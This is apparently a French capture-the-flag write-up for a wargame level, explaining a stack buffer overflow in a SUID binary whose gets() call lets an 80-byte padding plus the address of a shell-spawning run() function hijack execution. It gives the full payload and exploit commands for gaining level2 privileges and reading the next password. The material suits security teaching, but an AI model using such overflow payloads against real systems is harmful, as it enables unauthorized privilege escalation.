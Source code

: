 # LEVEL 1

## 1. Introduction

Le binaire `level1` présente une vulnérabilité de **buffer overflow** classique. En analysant le code avec Ghidra, on découvre qu'une fonction `run()` exécute un shell. Notre objectif est de détourner le flux d'exécution pour appeler cette fonction.

## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level1
-rwsr-s---+ 1 level2  level1  747441 Mar  6  2016 level1
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe :

![alt text](Ressources/image.png)

```c
int main(void) {
    char local_50[76];  // Buffer de 76 octets
    
    gets(local_50);      // Fonction vulnérable
    return 0;
}

void run(void) {
    system("/bin/sh");   // Notre cible
}
```

**Points clés :**
- `gets()` ne vérifie pas la taille de l'entrée
- Buffer de 76 octets
- Fonction `run()` à l'adresse `0x08048444`

### 2.3 Qu'est-ce que EBP ?

**EBP** (Extended Base Pointer) est un registre de 32 bits dans l'architecture x86 qui joue un rôle crucial dans la gestion de la pile (stack) :

#### 2.3.1 Rôle d'EBP
- **Pointeur de base** : EBP pointe vers le début du cadre de pile (stack frame) de la fonction courante
- **Référence fixe** : Contrairement à ESP qui change, EBP reste constant pendant l'exécution d'une fonction
- **Accès aux variables locales** : Permet d'accéder aux variables locales via des décalages négatifs (ex: `[ebp-4]`)

#### 2.3.2 Structure de la pile avec EBP
```
┌─────────────────┐
│   Variables     │ ← Variables locales de la fonction
│   locales       │   (accès via [ebp-4], [ebp-8], etc.)
├─────────────────┤
│      EBP        │ ← Pointeur de base (sauvegardé)
├─────────────────┤
│   Adresse de    │ ← Adresse de retour (notre cible)
│    retour       │
├─────────────────┤
│   Paramètres    │ ← Arguments de la fonction
└─────────────────┘
```

Plus précisément dans notre cas :

![alt text](Ressources/image-1.png)

## 3. Exploitation

### 3.1 Calcul du payload

Pour atteindre l'adresse de retour :
- Buffer : **76 octets**
- EBP : **4 octets** 
- **Total : 80 octets** + adresse de `run()`

### 3.2 Construction du payload

```bash
# Adresse de run() en little-endian
# 0x08048444 → \x44\x84\x04\x08

# Génération du payload
python -c 'print("A"*80 + "\x44\x84\x04\x08")' > /tmp/exploit.txt
```

### 3.3 Exécution de l'exploit

```bash
# Injection du payload
cat /tmp/exploit.txt - | ./level1

# Récupération du flag
cat /home/user/level2/.pass
```

### 3.4 Commandes complètes

```bash
# Se connecter au niveau
ssh level1@<IP> -p 4242

# Créer le payload
python -c 'print("A"*80 + "\x44\x84\x04\x08")' > /tmp/exploit.txt

# Exécuter l'exploit
cat /tmp/exploit.txt - | ./level1

# Récupérer le flag
cat /home/user/level2/.pass
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│                 BUFFER OVERFLOW                        │
├─────────────────────────────────────────────────────────┤
│  Buffer[76] + EBP[4] + Adresse de retour[4]          │
│  │                                                    │
│  └─→ "A"*80 + "\x44\x84\x04\x08"                    │
│      │                                                │
│      └─→ Écrasement de l'adresse de retour           │
│          │                                            │
│          └─→ Redirection vers run()                   │
│              │                                        │
│              └─→ system("/bin/sh")                    │
│                  │                                    │
│                  └─→ Shell avec privilèges level2    │
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure de la pile

```
┌─────────────────┐
│   Buffer[76]    │ ← Notre entrée (76 octets)
├─────────────────┤
│      EBP        │ ← 4 octets (sauvegardé)
├─────────────────┤
│   Retour main   │ ← 4 octets (notre cible)
└─────────────────┘
```

### 4.3 Flux d'exécution

```
1. gets() lit notre entrée sans vérification
2. Buffer déborde de 76 + 4 = 80 octets
3. Adresse de retour est écrasée par 0x08048444
4. Quand main() se termine, exécution continue dans run()
5. run() appelle system("/bin/sh")
6. Shell s'ouvre avec les privilèges SUID de level2
```

### 4.4 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Payload       │    │   Écrasement    │    │   Redirection   │
│   "A"*80 +      │───▶│   Adresse de    │───▶│   run() →       │
│   \x44\x84...   │    │   retour        │    │   system("/sh") │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

## 5. Conclusion

Cette vulnérabilité exploite un **buffer overflow** classique. En dépassant le buffer de 76 octets et en écrasant l'adresse de retour, on redirige l'exécution vers la fonction `run()` qui lance un shell avec les privilèges de level2. 